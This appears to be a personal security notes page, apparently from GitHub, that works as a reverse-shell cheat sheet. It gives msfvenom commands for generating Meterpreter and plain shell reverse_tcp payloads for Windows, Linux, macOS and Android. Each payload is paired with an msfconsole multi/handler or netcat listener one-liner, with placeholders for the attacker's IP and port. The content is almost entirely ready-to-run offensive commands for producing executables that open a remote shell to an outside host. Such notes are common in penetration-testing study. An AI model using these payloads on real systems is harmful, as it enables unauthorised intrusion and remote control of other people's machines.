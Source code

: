 # Security Notes
Documenting my journey in the world of CyberSecurity




##  Reverse Conneciton 

### Meterpreter
**Windows**

MSFVenom Payload
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f exe > payload.exe
```
MSFConsole Listener
```bash
msfconsole -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST <Your_IP>; set LPORT <Your_Port>; exploit"
```
**Linux**  

MSFVenom Payload
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f elf > payload.elf
```
MSFConsole Listener
```bash
msfconsole -x "use exploit/multi/handler; set payload linux/x64/meterpreter/reverse_tcp; set LHOST <Your_IP>; set LPORT <Your_Port>; exploit"
```

**MACOS**

MSFVenom Payload
```bash
msfvenom -p osx/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f macho > payload.macho
```

MSFConsole Listener
```
msfconsole -x "use exploit/multi/handler; set payload osx/x64/meterpreter/reverse_tcp; set LHOST <Your_IP>; set LPORT <Your_Port>; exploit"
```

**Android**
MSFVenom Payload
```
msfvenom -p android/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -o payload.apk
```

MSFConsole Listener
```
msfconsole -x "use exploit/multi/handler; set payload android/meterpreter/reverse_tcp; set LHOST <Your_IP>; set LPORT <Your_Port>; exploit"
```

### Netcat

**Windows** 

MSFVenom Payload
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f exe > payload.exe
```
Netcat Listener
```
nc -lvp <Your_Port>
```
**Linux**
 
MSFVenom Payload
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f elf > payload.elf
```
Netcat Listener
```
nc -lvp <Your_Port>
```
Replace <Your_IP> with your IP address and <Your_Port> with the desired port number for the reverse connection.
